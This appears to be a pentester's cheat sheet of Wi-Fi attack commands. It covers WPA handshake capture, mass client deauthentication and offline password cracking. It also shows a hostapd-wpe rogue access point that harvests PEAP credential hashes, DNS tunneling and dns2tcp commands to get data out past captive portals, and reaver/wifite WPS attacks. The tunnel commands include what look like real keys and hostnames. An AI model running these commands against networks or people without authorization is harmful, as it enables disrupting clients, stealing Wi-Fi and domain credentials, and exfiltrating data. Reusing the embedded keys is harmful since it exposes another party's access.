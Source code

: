 # WIFI

## WPA

Capture Handshake using airodump-ng + local crack using john or hashcat =&gt; cleartext password

### 1. Monitor mode

`sudo airmon-ng start wlan0`

### 2. Listen for specific bssid

`sudo airodump-ng -a mon0`

> find you target bssid \(mac\) and chanel

`airodump-ng -c 6 --bssid <MAC-BOX-CLIENT> --showack -w capture mon0`

> don't forget the -w paramter to save the handshake !!

### 3. DeAUTH

`aireplay-ng mon0 -0 5 -b <MAC-BOX-CLIENT>`

DEAUTH specific client device

`aireplay-ng -0 5 -a <MAC-BOX-CLIENT> -c <MAC-DEVICE-CLIENT> mon0`

DEAUTH massif \(each client connected at each bssid of an essid\)

`for bssid in cat bssid_deauth.lst; do for mac in cat client_deauth.lst; do aireplay-ng mon.wlan0 -0 5 -a $bssid -c $mac --ignore-negative-one -e <ESSID_CLIENT> ; done ; done`

### 4. Handshake cracking

Handshaked captured ? go crack it !!

**Crack with aircrack**

`aircrack-ng capture-01.cap --wordlist=<wordlist>`

Crack with john

```bash
wpaclean capture.cap-01.clean.cap capture.cap-01.cap
aircrack-ng capture.cap-01.clean.cap -J capture.cap-01.hccap
hccap2john capture.cap-01.hccap > capture.cap-01.hccap.john
john --wordlist=<wordlist> capture.cap-01.hccap.john
```

Crack with hashcat

_**todo**_

## PEAP

1. `apt install hostapd-wpe`
2. Configure same channel and essid than the client's one in hostapd conf
3. Disconnect clients devices \(see WPA - 3. DeAUTH\)

Log PEAP : hash client format john

`cat peap_client_log.txt | grep username -A2 | sed '/^--/d' | awk '{print $2}' | tr -d ':' | awk 'NR%3{printf $0":";next;}1' | awk -F ':' '{print $1"::::"$3":"$2}'`

*Vulnerability fix : GPO validate certificate*

## Captive portal

### DNS tunneling

Try DNS tunneling to exfiltrate data over the internet

[http://requestbin.net/dns](http://requestbin.net/dns)

## Troubleshooting

### unblock wifi card

```bash
sudo nmcli nm wifi off
sudo nmcli radio wifi off
sudo rfkill unblock wlan
```



## Todo

### PEAP hash replay

* Spoof AP and replay hashed captured
  * Sensepost bearer-ap
  * Sensepost sycophant

### dns2tcp manually

création du tunel

dns2tcpc -z dnstun.lexsi.net -c -d 1 -l 9000 -r ssh 192.168.128.27 -k _bijour@lexsi_ dns2tcpc -z dnstun.lexsi.net -c -d 1 -l 9000 -r ssh 192.168.1.29 -k Q5xTEGHgqa8 ssh rsshdummy@127.0.0.1 -p 9000 -D 9010 -N -i rssh\_dummy\_dv\_new

mise en place du proxy local

ssh rssh@127.0.0.1 -p 9000 -D 9010 -N -i rssh.ssh

### WPS

```bash
airmon-ng check airmon-ng start wlan1 
wifite --showb --wpa --mon-iface wlan0mo 
airodump-ng -a wlan1mon --wps --essid-regex EDL time reaver -i wlan1mon -c 1 -b E8:FC:AF:9A:C9:B0 -K 1 
airodump-ng -a wlan1mon --essid-regex Internet 
wifite --showb --wpa --mon-iface wlan0mon --aircrack --pyrit --tshark --cowpatty --power 40
airmon-ng check airmon-ng start wlan0 
airodump-ng wlan0mon --wps --essid-regex VICTIM reaver -i wlan0mon -c $channel -b $bssid -K 1
```

